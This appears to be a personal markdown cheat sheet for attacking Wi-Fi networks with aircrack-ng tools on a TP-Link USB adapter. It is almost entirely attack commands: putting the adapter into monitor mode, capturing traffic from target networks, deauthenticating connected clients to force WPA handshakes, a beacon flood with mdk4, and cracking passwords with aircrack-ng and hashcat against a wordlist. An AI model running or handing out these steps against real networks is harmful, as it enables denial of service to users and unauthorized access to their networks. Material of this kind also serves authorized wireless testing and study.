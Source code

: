 product : https://www.startech.com.bd/tp-link-archer-t2u-plus-ac600-600mbps-usb-adapter
TP-Link AC600 Archer T2U Plus

tab -> select color
m -> pick a random color
s -> default sort by different range
i -> invert sort algorithm


## cheapset active check
```
sudo iwconfig
```

check adapter information mode:
```
sudo airmon-ng start wlx00117f1b8884 
```
or 
```
sudo airmon-ng start wlan0mon
SUDO airmon-ng check kill
```


check again is active monitor mode
```
iwconfig
```

inkjection mode check:
```
sudo aireplay-ng --test wlan0
```




1. show all wifi info/interface:
sudo airodump-ng wlan0mon
2. focus only channel 6
sudo airodump-ng wlan0mon -c 6 
3. specify network address info
sudo airodump-ng wlan0mon -c 6 --bssid 
4. capture the file
sudo airodump-ng wlan0mon -c 6 --bssid -w capture
5. caputre range 5ghz
sudo airodump-ng wlan0mon -b a





specific wifi connect device information:
```
sudo airodump-ng --bssid 54:AF:97:C7:D0:06 -c 9 wlan0mon
sudo airodump-ng --bssid 54:AF:97:C7:D0:06 -c 9 --write capture wlan0mon
```
shows that
 54:AF:97:C7:D0:06  3A:D8:79:90:6C:23   -1    1e- 0      0        2             
 54:AF:97:C7:D0:06  A2:0B:6B:10:88:9C  -86    2e- 1      0      277             
 54:AF:97:C7:D0:06  52:D5:C7:80:2D:88   -1    1e- 0      0       21 
i choose - 1
 54:AF:97:C7:D0:06  52:D5:C7:80:2D:88

get handshaking file
```
sudo aireplay-ng --deauth 10 -a [bssid] -c [station] wlan0mon
sudo aireplay-ng --deauth 10 -a 54:AF:97:C7:D0:06 -c 52:D5:C7:80:2D:88 wlan0mon
```
wireshark check using : eapol


flood attack
```
sudo mdk4 wlan0mon b -c 1 -f wifi.lst
```

****************************************************************************
# Capture Traffic & Nearby Wifi Networks
Capture the packets and export it to your machine / show target network & connected device
```
sudo airodump-ng --bssid [target-bssid] -c [channel-id] --write [filename] [network-adapter]
sudo airodump-ng --bssid 34:60:F9:71:04:C2 -c 4 --write wifitest wlan0mon
```

# Deauth the users that are connected to the target network
 User will need to input the wifi password to connect again
```
sudo aireplay-ng --deauth [number-of-packets(>50)] -a [target-bssid] [network-adapter]
sudo aireplay-ng --deauth 200 -a 34:60:F9:71:04:C2 wlan0mon
```
to test in wireshark : eapol


file the DOS attack is underway, check on your airodump scan. You should see at the right top : WPA handshake: <mac address>. Once you have verified that, you can stop the replay attack and the airodump-ng scan.
```
sudo airodump-ng --bssid [code] -c 3 --write phonehotspot wlan0mon
```

#CRACK THE PASSWORD
using bruth force : 
```
sudo aircrack-ng -b 02:1A:11:FF:D9:BD -w /usr/share/wordlists/rockyou.txt ../Captures_1578171018678/NinjaJc01-01.cap
```
****************************************************************************

Attack a specific BSSID:
```
aircrack-ng -b 02:1A:11:FF:D9:BD -w wordlist.txt capture_file.cap
```

aircrack-ng capture.cap -J output
getoutput : cap2hccapx
hashcat -m 2500 output.hccapx wordlist.txt --force

*****************************************************
